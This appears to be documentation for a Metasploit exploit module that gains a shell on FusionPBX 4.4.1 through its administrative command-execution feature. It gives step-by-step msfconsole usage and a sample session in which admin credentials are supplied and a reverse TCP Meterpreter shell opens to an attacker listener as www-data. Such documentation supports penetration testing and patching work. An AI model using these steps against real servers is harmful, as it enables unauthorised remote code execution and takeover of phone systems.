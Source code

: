 ## Description

  This module uses administrative functionality available in FusionPBX
  to gain a shell.

  The Command section of the application permits users with `exec_view`
  permissions, or superadmin permissions, to execute arbitrary system
  commands, or arbitrary PHP code, as the web server user.


## Vulnerable Software

  This module has been tested successfully on FusionPBX version
  4.4.1 on Ubuntu 19.04 (x64).

  Software:

  * https://github.com/fusionpbx/fusionpbx/releases


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/fusionpbx_exec_cmd_exec`
  3. Do: `set rhosts <IP>`
  4. Do: `run`
  5. You should get a new session


## Options

  **TARGETURI**

  The base path to FusionPBX (default: `/`)

  **USERNAME**

  The username for FusionPBX (default: `admin`)

  **PASSWORD**

  The password for FusionPBX


## Scenarios

  ```
  msf5 > use exploit/unix/webapp/fusionpbx_exec_cmd_exec 
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set rhosts 172.16.191.214
  rhosts => 172.16.191.214
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set username admin
  username => admin
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set password PXRtwZqSkvToC4gc
  password => PXRtwZqSkvToC4gc
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > set lhost 172.16.191.165 
  lhost => 172.16.191.165
  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Automatic (PHP In-Memory)
     1   Automatic (Unix In-Memory)
     2   Automatic (Linux Dropper)


  msf5 exploit(unix/webapp/fusionpbx_exec_cmd_exec) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] Authenticated as user 'admin'
  [*] Sending payload (1115 bytes) ...
  [*] Sending stage (38288 bytes) to 172.16.191.214
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.214:60772) at 2019-11-01 19:25:43 -0400

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > 
  ```

